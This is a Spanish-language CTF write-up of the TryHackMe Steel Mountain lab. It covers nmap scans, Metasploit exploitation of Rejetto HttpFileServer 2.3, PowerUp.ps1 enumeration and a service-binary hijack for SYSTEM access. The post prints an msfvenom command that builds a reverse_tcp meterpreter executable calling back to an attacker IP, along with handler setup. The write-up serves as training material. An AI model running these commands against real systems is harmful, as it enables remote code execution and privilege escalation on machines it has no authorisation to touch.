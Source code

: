 ```yaml
---
toc: true
comments: true
title: TryHackMe - Steel Mountain
layout: post
title: TryHackMe - Steel Mountain
date: 2024-05-09 18:28 -0300
categories: [TryHackMe, Medium, CTF]
tags: [Windows, Powershell, PowerUp.ps1, PrivEsc]    
image: /assets/Posts/SteelMountain/logo.jpeg
---
```


## Pre
- [Clip del equipo haciendo este ctf](https://youtu.be/jU2VXnUzClk?si=UqznCp67bzZHFnq1)
- Steel Mountain probo ser un desafio complejo que dio buenas insights en los ataques a maquinas Windows y algo de conocimiento para PowerShell.

## Phase 1
Para comenzar realizamos los scans de nmap de siempre, el primero de puertos y luego uno de profundizacion en versiones y similar.

```shell
nmap -Pn -n -p- --min-rate 10000 --open -vv -oN nmap/firstScan $IP
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
445/tcp   open  microsoft-ds  syn-ack
3389/tcp  open  ms-wbt-server syn-ack
5985/tcp  open  wsman         syn-ack
8080/tcp  open  http-proxy    syn-ack
47001/tcp open  winrm         syn-ack
49153/tcp open  unknown       syn-ack
49154/tcp open  unknown       syn-ack
49155/tcp open  unknown       syn-ack
49156/tcp open  unknown       syn-ack
49169/tcp open  unknown       syn-ack
49170/tcp open  unknown       syn-ack
```

Para esto hice (o cierto chatbot basado en IA) el siguiente oneliner de extraccion de puertos que ya queda configurado a futuro en nuestro env.

```shell
cat firstScan | grep 'open' | awk '{ print $1 }' | awk '{print ($0+0)}' | sed -z 's/\n/,/g;s/,$/\n/' 
```
Y con eso podemos aplicar el script de forma rapida a los puertos. El siguiente es el resultado emprolijado (sacando los certs e info inecesaria)

```shell
$ nmap -Pn -n -p 80,135,139,445,3389,5985,8080,47001,49153,49154,49155,49156,49169,49170 -T4 -sSCV -A -vv -oN nmap/versions $IP
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 125 Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-05-10T17:55:18+00:00
5985/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               syn-ack ttl 125 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-title: HFS /
|_http-server-header: HFS 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
47001/tcp open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2024-05-10T17:55:18
|_  start_date: 2024-05-10T17:46:31
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:fe:8a:ec:36:63 (unknown)
| Names:
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   STEELMOUNTAIN<20>    Flags: <unique><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
```

Empezando el juego nos pide encontrar informacion sobre el empleado del mes. Encuentramos una página de inicio muy básica (¿y única?) con el empleado.

![Desktop View](/assets/Posts/SteelMountain/bill.png){: width="972" height="589" }
_BillHarper_

Con eso tenemos el nombre de Bill Harper en la url de la imagen. Continuando con nuestro analisis de los scripts vemos que hay un file server el cual destaca, navegadndo al mismo tenemos una version.

![Desktop View](/assets/Posts/SteelMountain/1.png){: width="972" height="589" }
_Vulnerable_

Con esto y una ayuda de metasploit la ejecucion es bastante simple.

```shell
msf6 > search Rejetto HTTP File Server

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

Lo configuramos y tenemos acceso!

## Phase 2: PrivEsc

Una vez dentro del sistema utilizamos `ifconfig` y vemos que no tiene acceso a internet externo. Pero aqui es cuando TryHackMe nos indica utilizar [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

Para esto desde nuestro meterpreter utilizamos el comando `upload` y le subimos el archivo. Luego lo ejecutamos, destacando la necesidad de cargar powershell antes.

```shell
meterpreter > upload ./PowerUp.ps1
...

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell


PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

Aqui el sistema nos da mucha, mucha informacion. Lo que queremos es un servicio que pueda ser frenado y re-empezado (para sustituirlo) con algun otro tipo de vulnerabilidad presente. Y aqui esta:

```shell
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

Entonces con el nombre del servicio debemos generar un ejecutable para nuestra reverse shell administrativa

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.46.99 LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
```

Nos tendremos que mover para ejecutar esto bien, el archivo ese reside en IObit 

```shell
meterpreter > cd Program\ Files\ (x86)\\
meterpreter > ls
Listing: C:\Program Files (x86)
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2019-09-26 12:17:46 -0300  Common Files
040777/rwxrwxrwx  0     dir   2019-09-26 12:17:48 -0300  IObit
040777/rwxrwxrwx  4096  dir   2014-03-21 16:08:30 -0300  Internet Explorer
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  Microsoft.NET
040777/rwxrwxrwx  0     dir   2019-09-29 21:46:20 -0300  Uninstall Information
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:33 -0300  Windows Mail
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  Windows NT
040777/rwxrwxrwx  0     dir   2013-08-22 12:39:30 -0300  WindowsPowerShell
100666/rw-rw-rw-  174   fil   2013-08-22 12:37:57 -0300  desktop.ini

# Nos metemos y subimos el exploit.
meterpreter > upload Advanced.exe

$msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'

# Luego tenemos que reiniciar el servicio y activarlo nuevamente
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2592
        FLAGS              : 
```

Con esto tenemos nuestra shell en root. Se puede generar tambien un meterpreter para que sea mas estable que un NC mediante `msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'`
